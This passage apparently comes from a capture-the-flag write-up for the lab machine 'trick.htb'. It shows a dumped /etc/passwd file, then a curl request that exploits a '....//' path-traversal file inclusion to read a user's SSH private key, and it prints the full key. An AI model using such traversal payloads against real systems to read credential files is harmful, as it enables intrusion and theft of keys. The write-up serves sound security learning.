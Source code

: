 ```jsx
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

We can look for ssh keys for the user michael in the deault location of ssh folder

```jsx
curl http://preprod-marketing.trick.htb/index.php\?page\=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
```
